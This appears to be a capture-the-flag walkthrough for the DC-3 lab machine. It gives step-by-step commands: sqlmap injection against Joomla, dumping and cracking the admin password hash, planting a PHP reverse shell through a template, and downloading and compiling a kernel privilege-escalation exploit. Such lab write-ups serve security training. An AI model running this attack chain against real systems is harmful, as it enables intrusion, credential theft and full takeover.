

# DC - 3

directory enumeration


nmap enumeration


the scan results show a joomla cms:


the admin pannel of joomla is in /administrator directory:


lets enumerate it with joomscan:

```text
joomscan --url http://192.168.56.126 -ec
```


searchsploit  shows that this version is vulnerable 


lets read the exploit:

```text
cat `locate 42033.txt`
```


this is a SQLi, we can use sqlmap  as shown in the exploit guide :

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```


we have the databases, lets find the tables:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables
```


and the coulmns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  --columns
```


then dump the username and password columns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C username --dump
```


```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C password --dump

```


```text
admin
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

save it in this format:

```text
admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

and run john to crack it:

```text
john hash
```


admin : snoopy

login as admin in the cms admin login page:




we have a template named protostart which is known for its vulnerability in joomla platforms \(google search\)

we can use this template to create a php shell on target system:



i use pentest monkey reverse php shell :

/usr/share/webshells/php/php-reverse-shell.php

change the ip and port


copy the content of the payload in the file content section:


now start a netcat listener and open the shell url in the browser:




lets get root:

ubuntu version 16.04

searchsploit ubuntu 16.04 local privilege escalation


wget [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

unzip 39772.zip

cd 39772

tar xvf exploit.tar

cd ebpf\_mapfd\_doubleput\_exploit/

./compile.sh

./doubleput


done !


